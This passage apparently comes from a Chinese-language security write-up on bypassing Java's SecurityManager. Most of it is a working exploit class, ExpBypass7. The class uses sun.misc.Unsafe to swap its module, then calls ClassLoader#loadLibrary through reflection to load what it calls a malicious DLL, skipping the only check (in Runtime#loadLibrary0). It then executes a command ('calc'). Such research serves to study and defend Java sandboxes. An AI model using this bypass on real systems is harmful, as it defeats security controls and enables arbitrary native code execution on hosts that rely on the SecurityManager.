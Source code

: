 在其中发现，只有 `java.lang.Runtime#loadLibrary0`会进行 `SecurityManager`检查

![图片](assets/1709279808-ccf7f8bcdb54eff78cc06f6cc58cfe66.png)

这就好办了，直接反射调用后面的方法就行

最终实现代码：

```bash
package zk_backup_0.configs.conf1;

import sun.misc.Unsafe;

import java.io.File;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class ExpBypass7 {

    public static void main(String[] args) throws IOException {

        try {
            Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);

            Module module = Object.class.getModule();
            Class<?> currentClass = ExpBypass7.class;

            long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass, addr, module);

            // 反射调用java.lang.ClassLoader#loadLibrary(java.lang.Class<?>, java.lang.String)加载恶意动态链接库
            Class<?> clz = ClassLoader.class;
            Method method = clz.getDeclaredMethod("loadLibrary", Class.class, File.class);
            method.setAccessible(true);
            File file = new File("D:\\xxx\\zk_backup_0\\configs\\conf1\\cmd.dll");
            method.invoke(null, currentClass, file);

        } catch (Exception e) {
            e.printStackTrace();
        }

        CommandExec commandExec = new CommandExec();
        String cmd = commandExec.exec("calc");
    }
}
```
